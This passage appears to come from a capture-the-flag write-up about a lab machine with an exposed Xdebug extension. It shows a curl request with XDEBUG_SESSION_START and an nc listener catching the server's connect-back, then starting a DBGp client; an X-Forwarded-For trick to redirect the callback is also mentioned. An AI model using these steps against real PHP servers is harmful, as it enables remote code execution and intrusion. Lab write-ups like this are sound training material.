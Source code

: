 
[*Click for full
![image*](/img/image-20210802170350528.png)



There's a ton of info there, but one bit that jumps out as unusual,
xdebug:

[![](/img/image-20210802170440009.png)*Click
for full size
![image*](/img/image-20210802170440009.png)

#### Getting Connection

[Xdebug](https://xdebug.org/) is a PHP extension designed to give
developers feedback on their application. It is not meant to run in
production. I actually played with this years ago on [HTB
Olympus](/htb-olympus.md#rce-through-xdebug). Most
configurations limit connection for Xdebug to localhost, but an insecure
configuration will allow for it to connect to any IP. In fact, I can
look at the PHP info and see that remote debugging is enabled:

![](/img/image-20210802201427728.png)

I can send a request to the server with the argument
`XDEBUG_SESSION_START=[some name]` (or with that as a cookie), then the
site will connect back to the IP connecting to it on TCP 9000. I can
also use the `X-Forwarded-For` header to tell it to connect back to
another host as well.

For example, I'll start `nc` on tcp 9000, and run
`curl 172.20.0.10/info.php?XDEBUG_SESSION_START=0xdf` to trigger the
debugger. There's a connection at `nc`:



    oxdf@parrot$ nc -lnvp 9000
    listening on [any] 9000 ...
    connect to [172.30.0.9] from (UNKNOWN) [172.30.0.1] 50964
    489<?xml version="1.0" encoding="iso-8859-1"?>
    <init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///var/www.md/info.php" language="PHP" xdebug:language_version="7.2.1-1ubuntu2" protocol_version="1.0" appid="50" idekey="0xdf"><engine version="2.6.0"><![CDATA[Xdebug]]></engine><author><![CDATA[Derick Rethans]]></author><url><![CDATA[http://xdebug.org]]></url><copyright><![CDATA[Copyright (c) 2002-2018 by Derick Rethans]]></copyright></init>



There's an Xdebug client that can be downloaded from
[here](https://xdebug.org/docs/dbgpClient), but it isn't great. I'll run
it, using `-p 9000` to listen on port 9000:



    oxdf@parrot$ ./dbgpClient -p 9000
    Xdebug Simple DBGp client (0.4.2)
    Copyright 2019-2020 by Derick Rethans
    In dumb client mode
